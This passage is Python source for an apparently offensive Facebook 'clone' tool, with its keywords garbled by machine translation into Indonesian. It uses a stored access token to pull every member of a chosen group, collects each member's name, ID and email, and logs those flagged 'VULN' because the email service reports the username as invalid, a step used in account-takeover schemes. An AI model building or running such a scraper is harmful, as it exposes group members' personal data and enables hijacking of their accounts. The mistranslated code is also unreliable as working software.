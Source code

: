 				jika '"messages.ERROR_INVALID_USERNAME">' di pek:
					cetak ("\ 033 [1; 96m [✓] \ 033 [1; 92mVULN")
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mID \ 033 [1; 91m: \ 033 [1; 92m" + id)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mEmail \ 033 [1; 91m: \ 033 [1; 92m" + mail)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mNama \ 033 [1; 91m: \ 033 [1; 92m" + nama)
					save = open ('out / TemanMailVuln.txt', 'a')
					save.write ("Nama:" + nama + '\ n' "ID:" + id + '\ n' "Email:" + mail + '\ n \ n')
					save.close ()
					berhasil.append (mail)
		kecuali KeyError:
			lulus
	cetak 42 * "\ 033 [1; 96m ="
	cetak '\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 92mSelesai \ 033 [1; 97m ....'
	print "\ 033 [1; 96m [+] \ 033 [1; 92mTotal \ 033 [1; 91m: \ 033 [1; 97m" + str (len (berhasil))
	print "\ 033 [1; 96m [+] \ 033 [1; 92mFile disimpan \ 033 [1; 91m: \ 033 [1; 97m keluar / TemanMailVuln.txt"
	raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
	Tidak bisa()
	
def clone_dari_member_group ():
	toket global
	os.system ('jelas')
	mencoba:
		toket = open ('login.txt', 'r'). read ()
	kecuali IOError:
		cetak "\ 033 [1; 96m [!] \ x1b [1; 91mToken tidak valid"
		os.system ('rm -rf login.txt')
		time.sleep (1)
		keluar ()
	mencoba:
		os.mkdir ('keluar')
	kecuali OSError:
		lulus
	os.system ('jelas')
	cetak logo
	mpsh = []
	jml = 0
	cetak 42 * "\ 033 [1; 96m ="
	id = raw_input ('\ 033 [1; 96m [+] \ 033 [1; 93mMasukan grup ID \ 033 [1; 91m: \ 033 [1; 97m')
	mencoba:
		r = requests.get ('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
		asw = json.loads (r.text)
		cetak "\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 93mNama grup \ 033 [1; 91m: \ 033 [1; 97m" + asw ['name' ]
	kecuali KeyError:
		print "\ 033 [1; 96m [!] \ x1b [1; 91mGroup tidak ditemukan"
		raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
		Tidak bisa()
	jalan ('\ 033 [1; 96m [✺] \ 033 [1; 93mMengambil email \ 033 [1; 97m ...')
	teman = requests.get ('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
	kimak = json.loads (teman.text)
	jalan ('\ 033 [1; 96m [✺] \ 033 [1; 93m Mulai \ 033 [1; 97m ...')
	cetak ('\ x1b [1; 96m [!] \ x1b [1; 93mHentikan CTRL + z')
	cetak 42 * "\ 033 [1; 96m ="
	untuk w di kimak ['data']:
		jml + = 1
		mpsh.append (jml)
		id = w ['id']
		nama = w ['name']
		links = requests.get ("https://graph.facebook.com/" + id + "? access_token =" + toket)
		z = json.loads (links.text)
		mencoba:
			mail = z ['email']